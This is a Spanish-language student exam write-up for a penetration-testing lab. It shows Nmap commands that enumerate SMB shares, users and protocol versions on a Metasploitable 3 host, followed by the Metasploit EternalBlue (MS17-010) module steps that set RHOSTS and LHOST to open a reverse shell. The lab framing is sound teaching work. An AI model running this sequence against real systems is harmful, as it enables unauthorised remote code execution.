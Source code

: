 ```yaml
---
title: EXAMEN PARCIAL
date: 2024-11-03 00:00:00 -05:00
categories: [reconnaissance, weaponization , delivery exploitation, installation , actions on object, Conclusions]
tags: [nmap, kali linux , metasploit]  # TAG names should always be lowercase
---
```

# **2.1. Escaneo de Red y Enumeración de Servicios** 
Utiliza Nmap desde tu máquina atacante para descubrir servicios activos en la máquina objetivo. Debes identificar los puertos relacionados con SMB y verificar si SMBv1 está habilitado.
Tip: Investiga cuáles son los 02 puertos asociados con el servicio SMB. Luego, investiga como puedes usar nmap con el flag --script para una enumeración detallada. Al analizar el output del comando, buscar específicamente el término SMBv1 o el protocolo NT LM 0.12 en la lista de protocolos. Ello indicará la presencia del servicio SMBv1.
Escribe el comando que usaste en Nmap y explica brevemente cómo determina si SMBv1 está activo.

![IMG1](/assets/image1.png)

Realizamos habilitar el rol file service.

![IMG2](/assets/image2.png)

Para descubrir los servicios activos en la máquina objetivo y verificar si SMBv1 está habilitado, se puede utilizar el siguiente comando Nmap:

![IMG3](/assets/image3.png)

![IMG4](/assets/image4.png)

El comando sudo nmap -sn 10.0.2.0 (privilegio administrador ) realiza un escaneo de red de tipo ping (TCP SYN) en la red 10.0.2.0/24, que abarca 256 direcciones IP (de 10.0.2.1 a 10.0.2.254).

![IMG5](/assets/image5.png)

Los dos puertos más comúnmente asociados con el servicio SMB (Server Message Block) son:
Puerto 139 (NetBIOS-ssn): Este puerto se utiliza para el tráfico SMB/CIFS (Common Internet File System) a través de NetBIOS. 
 Puerto 445 (Microsoft-ds): Este puerto se utiliza para el tráfico SMB/CIFS directamente sobre TCP/IP, sin utilizar NetBIOS.
En Metasploitable 3 nos  muestra la conexiones locales con los puertos.

![IMG6](/assets/image6.png)

![IMG7](/assets/image7.png)

smb-enum-shares:
•	Este script enumera los recursos compartidos SMB disponibles en la máquina objetivo.
•	El resultado mostrará una lista de los recursos compartidos, junto con información como el nombre del recurso, los permisos de acceso, y si el recurso está oculto o no.
smb-enum-users:
•	Este script enumera los usuarios del sistema operativo a los que se puede acceder a través de SMB.
•	El resultado mostrará una lista de usuarios, junto con su nombre de usuario, identificador de usuario (RID) y otros detalles.
smb-protocols:
•	Este script verifica qué versiones de SMB (incluyendo SMBv1) están habilitadas en el sistema.
•	El resultado mostrará una lista de los protocolos SMB soportados por el servidor, incluyendo si SMBv1 está presente.

![IMG8](/assets/image8.png)

El proceso para escanear la red y enumerar los servicios activos, específicamente los relacionados con SMB, en la máquina objetivo usando Nmap es el siguiente:
1.	Utilizar el comando nmap -sn 10.0.2.0/24 para realizar un escaneo de tipo ping en la red 10.0.2.0/24 y determinar qué hosts están activos.
2.	Una vez identificados los hosts activos, utilizar el comando nmap -p139,445 --script=smb-enum-shares,smb-enum-users,smb-protocols  10.0.2.4 para enumerar los servicios SMB.

# **2.2. Exploración de la Vulnerabilidad (2 puntos)
![IMG9](/assets/image9.png)
![IMG10](/assets/image10.png)

El funcionamiento :
msfconsole -q
Es la interfaz de línea de comandos principal del framework Metasploit, una herramienta de pruebas de penetración ampliamente utilizada en el mundo de la seguridad informática.
use exploit/windows/smb/ms17_010_eternalblue 
El Funcionamiento del módulo exploit/windows/smb/ms17_010_eternalblue:
1.	El módulo aprovecha la vulnerabilidad EternalBlue (MS17-010) en la implementación de SMBv1 en sistemas operativos Windows.
2.	Cuando se ejecuta este módulo, Metasploit envía una serie de solicitudes SMB especialmente diseñadas al sistema objetivo.
3.	Estas solicitudes SMB explotan la vulnerabilidad EternalBlue, lo que permite la ejecución de código arbitrario en el sistema objetivo.
4.	Una vez que se logra la ejecución de código, el módulo establece una conexión de tipo reverse shell, donde el sistema objetivo se conecta de vuelta a la máquina atacante, permitiendo así el acceso remoto al sistema.

![IMG11](/assets/image11.png)
Donde los comandos 


set RHOSTS 10.0.2.4

set LHOST 10.0.2.9
 
Donde <10.0.2.4 > es la dirección IP de la máquina objetivo y <10.0.2.9> es la dirección IP de la máquina atacante.
Verificar que el módulo esté configurado correctamente:

show options

Ejecutar el módulo para explotar la vulnerabilidad:
Exploit



